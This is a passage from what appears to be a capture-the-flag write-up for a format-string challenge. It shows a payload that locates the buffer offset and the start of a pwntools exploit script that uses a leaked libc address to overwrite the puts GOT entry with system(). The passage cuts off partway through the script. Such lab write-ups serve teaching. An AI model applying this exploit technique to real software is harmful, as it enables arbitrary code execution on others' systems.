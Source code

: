 `buf` can be seen to start at what would be the 38'th argument to `printf()` had there been arguments to the call. We can double check our calculation by displaying the 38'th argument directly using the format string `%38$016llx`:

    $ echo $(python3 -c 'print("A"*8 + ".0x%38$016llx")') | ./format-string-3 
    Howdy gamers!
    Okay I'll be nice. Here's the address of setvbuf in libc: 0x707eeb20a3f0
    AAAAAAAA.0x4141414141414141
    /bin/sh

This will allow us to build up our write-what-where format string, knowing the location of `buf` and it's corresponding position in terms of `printf()` arguments.

Refer to the write-up for [format string 2](Binary%20Exploitation/format%20string%202/format%20string%202.md) for further details on the attack method and payload construction, as this utilises the same method.

## Solution ##

The approach detailed above was implemented via a [pwntools](https://docs.pwntools.com/en/stable/) script to obtain the final solution.


```
#!/usr/bin/env python3

from pwn import *
import re

target_elf = ELF("./format-string-3")

# define offsets to LIBC functions from base address
LIBC_SETVBUF_OFS = 0x07a3f0
LIBC_SYSTEM_OFS  = 0x04f760
# define Global Offset Table (GOT) entry addresses
PUTS_GOT         = 0x404018

# gdb terminal configuration
#context.terminal = ["tmux", "splitw", "-h"]

# command line support for local, remote and gdb modes
if len(sys.argv) > 1:
  if "remote" in sys.argv:
    if len(sys.argv) > 3:
      target_proc = remote(sys.argv[2], sys.argv[3])
    else:
      print('usage: ./pwn-game.py remote <server> <port>')
      exit(1)
  elif "gdb" in sys.argv:
    target_proc = target_elf.process()
    gdb.attach(target_proc)
else:
  target_proc = target_elf.process()

# Address Space Layout Randomisation (ASLR) is enabled on the remote target, 
# hence we're required to make use of the information given (absolute address
# of setvbuf() in libc at runtime) to determine firstly the base address of 
# libc in the address space and then use this to calculate the address of 
# system() to patch the puts() GOT entry with system() address 

# read and skip first line: "Howdy gamers!"
target_proc.recvline()
# read and find the displayed libc address for setvbuf(), line is in the form:
# "Okay I'll be nice. Here's the address of setvbuf in libc: 0x7d8714ca33f0\n"
setvbuf_addr_line = target_proc.recvline()
setvbuf_addr = re.search("0x[0-9a-f]+", setvbuf_addr_line.decode("utf-8"))
```